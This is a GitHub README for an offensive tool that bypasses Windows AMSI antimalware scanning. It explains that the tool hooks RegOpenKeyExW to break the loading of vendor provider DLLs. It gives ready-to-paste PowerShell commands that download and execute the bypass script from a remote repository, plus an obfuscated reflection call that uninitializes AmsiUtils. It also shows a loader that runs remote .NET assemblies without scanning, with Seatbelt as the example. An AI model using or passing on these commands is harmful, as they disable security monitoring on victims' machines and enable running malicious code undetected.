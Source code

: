 ## UPDATES
```diff
! UPDATE 26/05/2025
! Added a counter for the .cs/.ps1 files so that after it has completed the redirection of "Software\Microsoft\AMSI\Providers", it will unhook RegOpenKeyExW
! This is to remove the overhead introduced by hooking every RegOpenKeyExW call and causing problems when RegOpenKeyExW is legitimately invoked
! For the powershell reflective loading and .ps1 script, MAKE SURE the process has fully loaded, can run some arbitrary commands first..
```

# TrollDisappearKey
TrollDisappearKey.cs   -> compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() \
TrollDisappearKeyPS.cs -> compile into a .dll to reflectively load to bypass powershell amsi \
TrollDisappearKeyPS.ps1 -> copy paste into powershell 

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 

## .powershell Usage (does not require admin)

```
##For PS Script
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.ps1 -UseBasicParsing).content

##For PS dll reflective after dl to disk
$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.cs -UseBasicParsing).content
Add-Type $code
[TrollDisappearKeyPS]::DisappearKey()
([Ref].Assembly.GetType([System.String]::Join("", "S", "y", "s", "t", "e", "m", ".", "M", "a", "n", "a", "g", "e", "m", "e", "n", "t", ".", "A", "u", "t", "o", "m", "a", "t", "i", "o", "n", ".", "A", "m", "s", "i", "U", "t", "i", "l", "s")).GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize).Invoke($object,$null)
```
  
## .exe Usage (does not require admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Disclaimer
Should only be used for educational purposes!







